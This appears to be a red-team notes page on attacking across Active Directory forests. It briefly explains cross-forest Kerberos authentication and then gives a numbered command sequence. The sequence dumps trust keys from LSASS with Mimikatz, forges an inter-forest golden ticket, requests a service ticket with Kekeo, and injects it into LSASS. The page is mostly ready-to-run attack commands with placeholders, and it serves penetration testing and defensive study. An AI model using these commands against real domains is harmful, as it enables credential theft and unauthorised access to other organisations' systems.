


# Cross-Forest Attacks
At some point you'll want to attack across Active Directory forests.
## About Cross-Forest Authentication
In Forest A:1. Client requests TGT
2. DC sends back TGT
3. Client presents TGT, requests a TGS for service in Forest B
4. DC send back an inter-domain TGT
From Forest A to Forest B:5. Client requests TGS from Forest B domain controller
6. Forest B DC sends back TGS
7. Client presents TGS to service in Forest B and accesses service
The point which is abusable is the
Request TGS stage.
## Attack
# 1. Access inter-forest trust keys
# --------------------------------------------------------------
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# 2. Forge inter-forest TGT
# --------------------------------------------------------------
Invoke-Mimikatz -Commmand '"Kerberos::golden /user:<user to access forest B as> /domain:<current domain> /sid:<user SID> /rc4:<user hash> /service:krbtgt /target:<forest B trust domain name> /ticket:<path to ticket generated earlier>"'
# 3. Request TGS by submitting inter-forest TGT
# --------------------------------------------------------------
# with Kekeo
.\asktgs.exe <path to inter-forest TGT> CIFS/forest-b-dc.example.local
# 4. Inject TGS into LSASS
# --------------------------------------------------------------
# with Kekeo
.\kirbikator.exe lsa <path to to TGS generated above>
# 5. View ticket
# --------------------------------------------------------------
klist
# TICKET will only be able to access files/things explicitly shared with Forest A
# you won't have Domain Admin in Forest B (unless your user is explicitly set as a Domain Admin in Forest B)
### Database Links
Databases often communicate across forests.
This means they're vulnerable to cross-forest attacks.
Refer to
Privilege Escalation > MS-SQL Databases